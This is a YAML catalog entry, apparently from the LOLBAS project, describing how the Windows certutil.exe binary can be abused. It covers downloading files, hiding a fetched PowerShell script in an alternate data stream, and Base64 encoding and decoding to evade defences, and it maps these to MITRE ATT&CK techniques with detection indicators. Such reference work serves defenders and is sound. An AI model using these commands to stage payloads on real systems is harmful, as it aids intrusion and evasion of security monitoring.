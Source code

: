 ```yaml
---
Name: Certutil.exe
Description: Windows binary used for handeling certificates
Author: 'Oddvar Moe'
Created: '2018-05-25'
Commands:
  - Command: certutil.exe -urlcache -split -f http://7-zip.org/a/7z1604-x64.exe 7zip.exe
    Description: Download and save 7zip to disk in the current folder.
    Usecase: Download file from Internet
    Category: Download
    Privileges: User
    MitreID: T1105
    MitreLink: https://attack.mitre.org/wiki/Technique/T1105
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10
  - Command: certutil.exe -verifyctl -f -split http://7-zip.org/a/7z1604-x64.exe 7zip.exe
    Description: Download and save 7zip to disk in the current folder.
    Usecase: Download file from Internet
    Category: Download
    Privileges: User
    MitreID: T1105
    MitreLink: https://attack.mitre.org/wiki/Technique/T1105
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10
  - Command: certutil.exe -urlcache -split -f https://raw.githubusercontent.com/Moriarty2016/git/master/test.ps1 c:\temp:ttt
    Description: Download and save a PS1 file to an Alternate Data Stream (ADS).
    Usecase: Download file from Internet and save it in an NTFS Alternate Data Stream
    Category: ADS
    Privileges: User
    MitreID: T1105
    MitreLink: https://attack.mitre.org/wiki/Technique/T1105
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10
  - Command: certutil -encode inputFileName encodedOutputFileName
    Description: Command to encode a file using Base64
    Usecase: Encode files to evade defensive measures
    Category: Encode
    Privileges: User
    MitreID: T1027
    MitreLink: https://attack.mitre.org/wiki/Technique/T1027
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10
  - Command: certutil -decode encodedInputFileName decodedOutputFileName
    Description: Command to decode a Base64 encoded file.
    Usecase: Decode files to evade defensive measures
    Category: Decode
    Privileges: User
    MitreID: T1140
    MitreLink: https://attack.mitre.org/wiki/Technique/T1140
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10
Full_Path:
  - Path: C:\Windows\System32\certutil.exe
  - Path: C:\Windows\SysWOW64\certutil.exe
Code_Sample: 
  - Code:
Detection:
  - IOC: Certutil.exe creating new files on disk
  - IOC: Useragent Microsoft-CryptoAPI/10.0
  - IOC: Useragent CertUtil URL Agent
Resources:
  - Link: https://twitter.com/Moriarty_Meng/status/984380793383370752
  - Link: https://twitter.com/mattifestation/status/620107926288515072
  - Link: https://twitter.com/egre55/status/1087685529016193025
Acknowledgement:
  - Person: Matt Graeber
    Handle: '@mattifestation'
  - Person: Moriarty
    Handle: '@Moriarty_Meng'
  - Person: egre55
    Handle: '@egre55'
---
```

